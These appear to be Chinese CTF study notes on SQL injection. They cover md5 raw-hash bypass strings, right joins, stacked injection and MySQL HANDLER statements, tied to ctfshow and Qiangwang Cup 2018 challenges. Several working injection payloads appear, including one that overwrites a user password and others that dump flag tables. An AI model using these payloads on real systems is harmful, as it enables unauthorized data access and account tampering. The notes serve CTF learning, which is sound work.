     `129581926211651571912466741651878684928`md5再16进制为`ڔ0D㟁'or'8`

    `ffifdyop`md5再16进制为`'or'6ɝ⬹�` 



# SQL注入
>SQL注入一方面主要是考虑如何构造第二个查询语句，不要局限于第一个语句



## 右查询
right join

将返回右表中所有记录，不管前表中有没有


## 堆叠注入
>ctfshow 195
* 用法

    将所有的语句一次性输入完毕，否则SQL语句可能出现找不到表名的错误
    ```php

    username=0x61646d696e;update`ctfshow_user`set`pass`=0x313131;&password=0x313131
    ```
### Handler
>https://www.cnblogs.com/gaonuoqi/p/12398554.html
>ctfshow 225、强网杯2018随便注
* 概念

    mysql除可使用select查询表中的数据，也可使用handler语句，这条语句使我们能够一行一行的浏览一个表中的数据，不过handler语句并不具备select语句的所有功能。它是mysql专用的语句，并没有包含到SQL标准中。

* 用法

    利用`handler`方法,其作用是`HANDLER ... OPEN`语句打开一个表，使其可以使用后续`HANDLER ... READ`语句访问，该表对象未被其他会话共享，并且在会话调用`HANDLER ... CLOSE`或会话终止之前不会关闭,也就是可以通过这种方法直接访问表中的内容

    ```php
    /api/?username=';show tables;-- -

    /api/?username=';handler `ctfshow_flagasa` open;handler `ctfshow_flagasa` read first;-- -
    
    `1';HANDLER FlagHere OPEN;HANDLER FlagHere READ FIRST;HANDLER FlagHere CLOSE;#` 
    
    ```

### 预处理
>https://blog.csdn.net/solitudi/article/details/107823398?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522160652999219721940215459%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=160652999219721940215459&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_v2~rank_blog_default-1-107823398.pc_v2_rank_blog_default&utm_term=%E5%BC%BA%E7%BD%91%E6%9D%AF&spm=1018.2118.3001.4450
>ctfshow 226、ctfshow 228-230、强网杯2018随便注
